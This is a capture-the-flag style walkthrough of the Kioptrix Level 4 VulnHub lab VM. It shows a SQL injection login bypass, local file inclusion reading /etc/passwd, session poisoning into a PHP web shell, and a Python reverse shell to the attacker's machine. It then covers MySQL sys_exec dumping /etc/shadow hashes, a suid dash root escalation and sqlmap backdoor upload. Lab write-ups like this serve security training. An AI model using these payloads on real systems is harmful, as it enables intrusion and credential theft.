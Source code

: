 ```yaml
---
layout: post
title: "Kioptrix: Level 4"
date: 2015-08-25 18:18:32 +0200
comments: true
categories: [vulnhub, kioptrix]
---
```

Image: [Kioptrix: Level 1.3 (#4)](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/#)

Nmap output:
{% codeblock %}
root@kali32:~# nmap 192.168.80.154 -sT

Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-04-26 23:39 CEST
Nmap scan report for 192.168.80.154
Host is up (0.0015s latency).
Not shown: 566 closed ports, 430 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:53:2F:A3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
{% endcodeblock %}

There is a member login on the http://192.168.80.154/index.php site, we try the
following credentials (SQLi): 

{% codeblock %}
Username: Administrator
Password: test' or '1'='1
{% endcodeblock %}

We logged into member site and after a few seconds found the local file
inclusion vulnerability. Filtering the `etc` string could be easily evaded for displaying `/etc/passwd`:

{% codeblock %}
http://192.168.80.154/member.php?username=robert
http://192.168.80.154/member.php?username=../../../../../etc/passwd -> User ../../../../..//passwd
http://192.168.80.154/member.php?username=../../../../../eetct/passwd -> User ../../../../../et/passwd
http://192.168.80.154/member.php?username=../../../../../eetctc/passwd -> /../../../../../etc/passwd.php
http://192.168.80.154/member.php?username=../../../../../eetctc/passwd%00
{% endcodeblock %}

{% codeblock %}
root@kali32:~# curl "http://192.168.80.154/member.php?username=../../../../../eetctc/passwd%00"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:1000:loneferret,,,:/home/loneferret:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/kshell
robert:x:1002:1002:,,,:/home/robert:/bin/kshell
{% endcodeblock %}

`smbmap` output reveals:
{% codeblock %}
root@kali32:~# smbmap -H 192.168.80.154
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.168.80.154...
[+] IP: 192.168.80.154:445	Name: 192.168.80.154
	Disk                                                  	Permissions
	----                                                  	-----------
	print$                                            	NO ACCESS
	IPC$                                              	NO ACCESS
{% endcodeblock %}

Now we try to inject php backdoor. For this purpose, we use our session file.
The file has a fixed location `/var/lib/php5/sess_` with the appended session
cookie name:
{% codeblock %}
http://192.168.80.154/member.php?username=../../../../../var/lib/php5/sess_99abfd5b8d62c5172ff8bf2bc76b9061%00

myusername|s:13:"Administrator";mypassword|s:15:"test' or '1'='1"; 
{% endcodeblock %}

As we can see, the myusername session variable could be used to easily inject our code:

We need to login using these credentials:
{% codeblock %}
Username: <?php system($_REQUEST[cmd]); ?>
Password: test' or '1'='1
{% endcodeblock %}

Now we have a backdoor, that uses parameter `cmd`. Digging deeper, we use python to execute reverse shell:
{% codeblock %}
root@kali32:~# curl "http://192.168.80.154/member.php?username=../../../../../var/lib/php5/sess_99abfd5b8d62c5172ff8bf2bc76b9061%00&cmd=id"
myusername|s:32:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";mypassword|s:15:"test' or '1'='1";

root@kali32:~# curl "http://192.168.80.154/member.php?username=../../../../../var/lib/php5/sess_99abfd5b8d62c5172ff8bf2bc76b9061%00&cmd=cat%20database.sql"
myusername|s:32:"CREATE TABLE `members` (
`id` int(4) NOT NULL auto_increment,
`username` varchar(65) NOT NULL default '',
`password` varchar(65) NOT NULL default '',
PRIMARY KEY (`id`)
) TYPE=MyISAM AUTO_INCREMENT=2 ;

--
-- Dumping data for table `members`
--

INSERT INTO `members` VALUES (1, 'john', '1234');
";mypassword|s:15:"test' or '1'='1";

root@kali32:/var/www/html# nc -l -p 1234
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

root@kali32:~# curl "http://192.168.80.154/member.php?username=../../../../../var/lib/php5/sess_99abfd5b8d62c5172ff8bf2bc76b9061%00&cmd=python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.80.137\",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);'"

$ cat checklogin.php
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name

// Connect to server and select databse.
mysql_connect("$host", "$username", "$password")or die("cannot connect");
mysql_select_db("$db_name")or die("cannot select DB");

// Define $myusername and $mypassword
$myusername=$_POST['myusername'];
$mypassword=$_POST['mypassword'];

// To protect MySQL injection (more detail about MySQL injection)
$myusername = stripslashes($myusername);
//$mypassword = stripslashes($mypassword);
$myusername = mysql_real_escape_string($myusername);
//$mypassword = mysql_real_escape_string($mypassword);

//$sql="SELECT * FROM $tbl_name WHERE username='$myusername' and password='$mypassword'";
$result=mysql_query("SELECT * FROM $tbl_name WHERE username='$myusername' and password='$mypassword'");
//$result=mysql_query($sql);

// Mysql_num_row is counting table row
$count=mysql_num_rows($result);
// If result matched $myusername and $mypassword, table row must be 1 row

if($count!=0){
// Register $myusername, $mypassword and redirect to file "login_success.php"
	session_register("myusername");
	session_register("mypassword");
	header("location:login_success.php?username=$myusername");
}
else {
echo "Wrong Username or Password";
print('<form method="link" action="index.php"><input type=submit value="Try Again"></form>');
}

ob_end_flush();
?>
{% endcodeblock %}

Because the mysql instance is running as root user, we have a full access to
the database. We dump it and use the credentials for ssh login, for example
with the user `john`. The `lshell` is executed, but noticing his `.lhistory` file,
bash could be directly executed too. Finally, we set the suid privileges for
`dash` using mysql and obtain the root privileges:

{% codeblock %}
$ echo "select * from members" | mysql -u root members
id	username	password
1	john	MyNameIsJohn
2	robert	ADGAdsafdfwt4gadfga==

$ cat /home/john/.lhistory
?
help
echo os.system('/bin/bash')
exit
su
sudo
?
scp
touch hello
help
ls /root
exit
echo os.system('/bin/bash')
exit

root@kali32:~# ssh -l john 192.168.80.154
john@192.168.80.154's password:
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)

john:~$ mysql -u root

mysql> select sys_exec('cat /etc/shadow > /tmp/a');
+--------------------------------------+
| sys_exec('cat /etc/shadow > /tmp/a') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.01 sec)

mysql>
[1]+  Stopped                 mysql -u root
john@Kioptrix4:~$ cat /tmp/a
root:$1$5GMEyqwV$x0b1nMsYFXvczN0yI0kBB.:15375:0:99999:7:::
daemon:*:15374:0:99999:7:::
bin:*:15374:0:99999:7:::
sys:*:15374:0:99999:7:::
sync:*:15374:0:99999:7:::
games:*:15374:0:99999:7:::
man:*:15374:0:99999:7:::
lp:*:15374:0:99999:7:::
mail:*:15374:0:99999:7:::
news:*:15374:0:99999:7:::
uucp:*:15374:0:99999:7:::
proxy:*:15374:0:99999:7:::
www-data:*:15374:0:99999:7:::
backup:*:15374:0:99999:7:::
list:*:15374:0:99999:7:::
irc:*:15374:0:99999:7:::
gnats:*:15374:0:99999:7:::
nobody:*:15374:0:99999:7:::
libuuid:!:15374:0:99999:7:::
dhcp:*:15374:0:99999:7:::
syslog:*:15374:0:99999:7:::
klog:*:15374:0:99999:7:::
mysql:!:15374:0:99999:7:::
sshd:*:15374:0:99999:7:::
loneferret:$1$/x6RLO82$43aCgYCrK7p2KFwgYw9iU1:15375:0:99999:7:::
john:$1$H.GRhlY6$sKlytDrwFEhu5dULXItWw/:15374:0:99999:7:::
robert:$1$rQRWeUha$ftBrgVvcHYfFFFk6Ut6cM1:15374:0:99999:7:::
john@Kioptrix4:/etc/samba$

mysql> select sys_exec('chmod +s /bin/dash');
+--------------------------------+
| sys_exec('chmod +s /bin/dash') |
+--------------------------------+
| NULL                           |
+--------------------------------+
1 row in set (0.01 sec)

john@Kioptrix4:~$ /bin/dash
# id
uid=1001(john) gid=1001(john) euid=0(root) egid=0(root) groups=1001(john)

# cd /root
# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
{% endcodeblock %}

Because the UDF exploitation is well known for sqlmap, we could solve the challenge also using this tool:

{% codeblock %}
root@kali32:~# sqlmap -u http://192.168.80.154/checklogin.php --data="myusername=a&mypassword=a&Submit=Login" --os-cmd 'id' --batch | grep uid
command standard output:    'uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=33(www-data)'

root@kali32:~# sqlmap -u http://192.168.80.154/checklogin.php --data="myusername=a&mypassword=a&Submit=Login" --os-cmd 'cat /root/congrats.txt' --batch
...
[00:13:06] [INFO] the backdoor has been successfully uploaded on '/var/www/' - http://192.168.80.154:80/tmpbborl.php
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
Congratulations!
You've got root.
...
{% endcodeblock %}
